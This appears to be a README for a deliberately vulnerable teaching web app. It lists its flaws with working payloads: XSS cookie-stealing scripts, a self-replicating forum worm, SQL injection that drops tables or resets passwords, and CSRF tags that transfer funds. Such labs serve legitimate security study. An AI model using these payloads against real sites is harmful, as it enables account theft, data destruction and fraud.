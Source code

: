 # Web Playground
A web application demonstrating web vulnerabilities. Testing XSS, script injection, SQL injection,...

This is just an uncontrollably broken application. Never put this on any server
of major or minor importance. There is no guarantee that this app cannot be used
to steal everything and crash the server.

# Known issues

Here is a list of all known voulnarbilities on the site

## Search

1. XSS: When displaying "You searched for <string>" the string is not properly
escaped.
   * Test for XSS: `<script> alert("XSS!") </script>`
   * Change all links: `Facebook <script> $(function(){$("a").attr("href", "/evil");}); </script>`
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`
2. SQL Injection: SQL query is manually created and not properly escaped.
   * Test shows stack trace and actual code: `'`
   * See all hidden links: ` ' OR hide=1 /*`

## Login

1. Remember password: Browser can preload your saved passwords.
   * You can inspect the password input field and change type from `password` to
   `text` and the saved password will be visible.
2. GET: Using GET method instead of POST
   * Everyone can see all the posted data i.e. username and password in the URL
3. CSRF: site does not check for origin of the request
   * You can click a link (or not) and be logged in as someone else
4. __SQL injection: SQL query not properly escaped__
   * Test shows stack trace and actual code: `'`
   * Delete tables: `', ''); DROP TABLE users;/*
   * Change all passwords: `', ''); UPDATE users SET password='funfun';/*

## Pay

1. Parameters unchecked: editing GET parameters lets users transfer any amount
   * Send money to yourself: `&amount=-100`
2. GET: Using GET method instead of POST
   * Send funds when seeing an image: `<img src="/pay?action=pay&username=maks&amount=100"/>`
3. CSRF: site does not check for origin of the request:
   * Send funds when seeing a script: `$.get("/pay?action=pay&username=maks&amount=100")`

## Forum

1. GET: Using GET method instead of POST
   * No re-confirmation when reloading a page. You simply re-post.
2. CSRF: site does not check for origin of the request
   * Images can cause damage: `<img src='/forum?action=new&title=XSS&content=imageXSS'/>`
3. XSS: Many things not escaped. Title, content, user's name.
   * Self replicating post:
      ```HTML
      <span class="xss">
          Tekst?
          <script>
              $.get('?action=new&title=XSS&content='+
                    encodeURIComponent($(".xss")[0].outerHTML));
          </script>
      </span>
      Quil?
      <script>
          var prog = "Quil?<script>var prog = @;$.get('?action=new&title=XSS&content='+encodeURIComponent(prog.replace('@', prog)+'t>'));</scrip";
          $.get('?action=new&title=XSS&content='+
                encodeURIComponent(prog.replace('@', prog)+'t>'));
      </script>
      ```
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`

## Database viewer (/db_viewer_XDSie983BQbnxc_asjdh)

1. URL change: no sanity checks for url parameters
   * Access all data by changing table name in the url
2. Unaythorized access
   * Anyone with a link can access it
